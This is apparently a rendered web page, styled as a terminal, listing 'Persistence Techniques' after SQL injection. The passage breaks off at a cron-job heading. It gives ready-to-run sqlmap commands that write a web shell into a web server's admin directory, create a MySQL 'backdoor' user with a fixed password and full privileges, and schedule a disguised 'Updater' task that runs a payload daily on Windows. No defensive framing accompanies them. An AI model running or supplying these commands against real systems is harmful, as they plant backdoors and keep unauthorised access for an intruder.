 ::: {.terminal-button .maximize}
:::
:::

[Persistence Techniques]{style="color: #ccc; margin-left: 10px;"}
:::

::: terminal-content
<div>

[\# 1. Web shell upload]{style="color: #00ffff;"}

</div>

<div>

python sqlmap.py -u \"target\" \--file-write=\"webshell.php\"
\--file-dest=\"/var/www/html/admin/shell.php\"

</div>

\

<div>

[\# 2. Create backdoor user (MySQL)]{style="color: #00ffff;"}

</div>

<div>

python sqlmap.py -u \"target\" \--sql-query \"CREATE USER
\'backdoor\'@\'%\' IDENTIFIED BY \'P@ssw0rd123\'\"

</div>

<div>

python sqlmap.py -u \"target\" \--sql-query \"GRANT ALL PRIVILEGES ON
\*.\* TO \'backdoor\'@\'%\'\"

</div>

\

<div>

[\# 3. Scheduled task creation (Windows)]{style="color: #00ffff;"}

</div>

<div>

python sqlmap.py -u \"target\" \--os-cmd \"schtasks /create /tn Updater
/tr C:\\\\temp\\\\payload.exe /sc daily\"

</div>

\

<div>

[\# 4. Cron job (Linux)]{style="color: #00ffff;"}
